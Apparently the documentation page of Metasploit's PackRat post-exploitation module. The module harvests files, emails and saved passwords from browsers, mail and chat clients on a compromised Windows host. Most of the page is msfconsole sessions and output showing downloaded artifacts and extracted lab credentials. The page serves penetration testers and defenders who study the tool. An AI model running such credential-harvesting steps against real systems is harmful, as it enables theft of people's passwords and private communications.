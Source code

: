 ## PackRat Module Description

 PackRat is a post-exploitation module that gathers file and information artifacts from end users' systems. PackRat searches for and downloads files of interest (such as config files, and received and deleted emails) and extracts information (such as contacts and usernames and passwords), using regexp, JSON, XML, and SQLite queries.

 Applications currently covered include:

 * **13 Browsers:**
 Avant, Comodo, CoolNovo, Chrome, FireFox, Flock, IE, K-Meleon, Maxthon, Opera, SRware, Safari, SeaMonkey
 * **6 Email clients:**
 Incredimail, Outlook, Opera Mail, PostBox Mail, Mozilla Thunderbird Mail, Windows Live Mail
 * **12 IM (chat):**
 AIM (Aol Instant Messaging), Digsby, GaduGadu, ICQ, Miranda, Nimbuzz, Pidgen, QQ (Chinese), Skype, Tango, Tlen.pl (Polish), Trillian, Viber, xChat
 * **1 Game:**
 Xfire

 These artifacts are scraped for credentials (usernames/passwords) and custom regular expressions

The applications, file artifacts, and the information extraction queries used by PackRat are defined in `metasploit-framework/data/packrat/artifacts.json`

By default PackRat will automatically search for any known artifacts. However, the module options can be used to specify specific applications (set APPLICATION) or categories of applications (set APPCATAGORY) to gather from, and you can specify custom regular expression information extractions (set REGEX).


## Verification Steps

 1. Start 'msfconsole'
 2. Get a Meterpreter session
 3. Do: 'use post/windows/gather/packrat'
 4. Do: 'set SESSION <session id>'
 5. Do: 'run'


## Option 'APPLICATION'

Users can enter a specific APPLICATION to extract. For example, for the email client incredimail:

```
msf exploit(handler) > use post/windows/gather/packrat
msf post(windows/gather/packrat) > set SESSION 1
SESSION => 1
msf post(windows/gather/packrat) > set APPLICATION incredimail
APPLICATION => incredimail
msf post(windows/gather/packrat) > exploit

[*] Filtering based on these selections:
[*] APPCATEGORY: All, APPLICATION: Incredimail, ARTIFACTS: All

[*] Incredimail Msg.iml downloaded (IncrediMail sent and received emails)
[+] File saved to:  /root/.msf4/loot/20190419180935_default_192.168.201.80_incredimailmsg.i_909151.iml

[+] password:incredimail_password89!
```

## Option 'APPCATAGORY'

The user can specify which type of applications to extract from. For example, extracting from email clients:

```
msf post(windows/gather/packrat) > set APPCATEGORY chats
APPCATEGORY => chats
msf post(windows/gather/packrat) > run

[*] Filtering based on these selections:
[*] APPCATEGORY: Chats, APPLICATION: All, ARTIFACTS: All
[*] Pidgen's Accounts.xml file found
[*] Downloading C:\Users\student\AppData\Roaming\.purple\accounts.xml
[*] Pidgen Accounts.xml downloaded (Pidgen's saved Username & Passwords)
[+] File saved to:  /root/.msf4/loot/20190419182347_default_192.168.201.80_pidgenaccounts.x_471388.xml

[+] <name>Pidgen_User44</name>
[+] <password>tiaspbiqe2r</password>
[+] <alias>project_pidgen</alias>
[*] File with credentials saved:  /root/.msf4/loot/20190419182347_default_192.168.201.80_accounts.xmlCRED_543101.xml

[*] PackRat credential sweep Completed. Check for artifacts and credentials in Loot
[*] Post module execution completed
```


## Option 'REGEX'

Users can set their own regular expressions. The example below extracts any line starting with "password:" followed by any text.

```
msf post(windows/gather/packrat) > set REGEX password:.*
REGEX => (?-mix:password:.*)
msf post(windows/gather/packrat) > run

[*] Filtering based on these selections:
[*] APPCATEGORY: All, APPLICATION: All, ARTIFACTS: All

[*] Incredimail's Msg.iml file found
[*] Downloading C:\Users\student\AppData\Local\IM\Identities\{751CBA0D-062E-4661-A2FC-DC4AB5C0CE14}\Message Store\Messages\1\{FA4CE6FD-C88E-4BD8-AF51-425A27317D79}\msg.iml
[*] Incredimail Msg.iml downloaded (IncrediMail sent and received emails)
[+] File saved to:  /root/.msf4/loot/20190419182745_default_192.168.201.80_incredimailmsg.i_585117.iml

[+] password:incredimail_password89!
```

## Option 'ARTIFACTS'

Users can set the type of ARTIFACTS that they are interested in collecting. For example, this can include "deleted_emails", "logins", "chat_logs", and so on. Use display options, or browse the `artifacts.json` specification for a full list.

## Option VERBOSE

By default verbose is turned off, when turned on the module will show information on files which aren't extracted and provide descriptions of what credentials are being found.

```
msf post(windows/gather/packrat) > set verbose 1
verbose => true
msf post(windows/gather/packrat) > set APPLICATION pidgen
APPLICATION => pidgen
msf post(windows/gather/packrat) > run

[*] Filtering based on these selections:
[*] APPCATEGORY: All, APPLICATION: Pidgen, ARTIFACTS: All
[*] Searching for Pidgen's Accounts.xml files in 's user directory...
[-] Pidgen's Accounts.xml not found in 's user directory

[*] Searching for Pidgen's Accounts.xml files in student's user directory...
[*] Pidgen's Accounts.xml file found
[*] Downloading C:\Users\student\AppData\Roaming\.purple\accounts.xml
[*] Pidgen Accounts.xml downloaded (Pidgen's saved Username & Passwords)
[+] File saved to:  /root/.msf4/loot/20190419183047_default_192.168.201.80_pidgenaccounts.x_891221.xml

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <name>Pidgen_User44</name>
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] <password>tiaspbiqe2r</password>
[*] Searches for Identity
[+] <alias>project_pidgen</alias>
```

## Options 'Store loot'

This option is turned on by default and saves the file artifacts on the local machine,
this is required for also further extracting information from the files.
